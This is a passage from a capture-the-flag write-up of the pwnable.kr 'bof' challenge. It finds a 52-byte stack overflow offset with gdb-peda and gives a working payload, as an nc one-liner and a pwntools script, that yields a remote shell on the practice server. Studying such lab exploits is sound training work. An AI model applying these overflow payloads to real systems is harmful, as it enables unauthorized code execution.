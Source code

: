So, the last thing is to find the offset between `0xffffd3cc` and `0xffffd400`. Now we look at the stack.
```
gdb-peda$ telescope 25
0000| 0xffffd3b0 --> 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0004| 0xffffd3b4 --> 0xffffd454 --> 0xad54c02e
0008| 0xffffd3b8 --> 0x0
0012| 0xffffd3bc --> 0xd9f75100
0016| 0xffffd3c0 --> 0xffffffff
0020| 0xffffd3c4 --> 0xffffd668 ("/home/firmy/Documents/bof/bof")
0024| 0xffffd3c8 --> 0xf7de8ea0 --> 0x2bce
0028| 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0032| 0xffffd3d0 ("AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0036| 0xffffd3d4 ("ABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0040| 0xffffd3d8 ("$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0044| 0xffffd3dc ("AACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0048| 0xffffd3e0 ("A-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0052| 0xffffd3e4 ("(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0056| 0xffffd3e8 ("AA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0060| 0xffffd3ec ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0064| 0xffffd3f0 ("EAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0068| 0xffffd3f4 ("AA0AAFAAbAA1AAGAAcAA2AAH")
0072| 0xffffd3f8 ("AFAAbAA1AAGAAcAA2AAH")
0076| 0xffffd3fc ("bAA1AAGAAcAA2AAH")
0080| 0xffffd400 ("AAGAAcAA2AAH")
0084| 0xffffd404 ("AcAA2AAH")
0088| 0xffffd408 ("2AAH")
0092| 0xffffd40c --> 0x0
0096| 0xffffd410 --> 0xf7f98000 --> 0x1bbd90
--More--(25/25)
```

Then we use PEDA command `pattern offset` to calculate the offset.
```
gdb-peda$ pattern offset AAGAAcAA2AAH
AAGAAcAA2AAH found at offset: 52
```

We can see the offset is 52 bytes, so in order to run `system("/bin/sh")`, we structure such payload:
```
(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```

Or write such python script and run:
```
from pwn import *
sh=remote('pwnable.kr',9000)
sh.sendline("A"*52+"\xbe\xba\xfe\xca")
sh.interactive()
```

```
firmy:bof/ $ python2 bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
$ ls -al
total 22400
drwxr-x---  3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 80 root root     4096 Jan 11 23:27 ..
d---------  2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---  1 root bof      7348 Sep 12  2016 bof
-rw-r--r--  1 root root      308 Oct 23  2016 bof.c
-r--r-----  1 root bof        32 Jun 11  2014 flag
```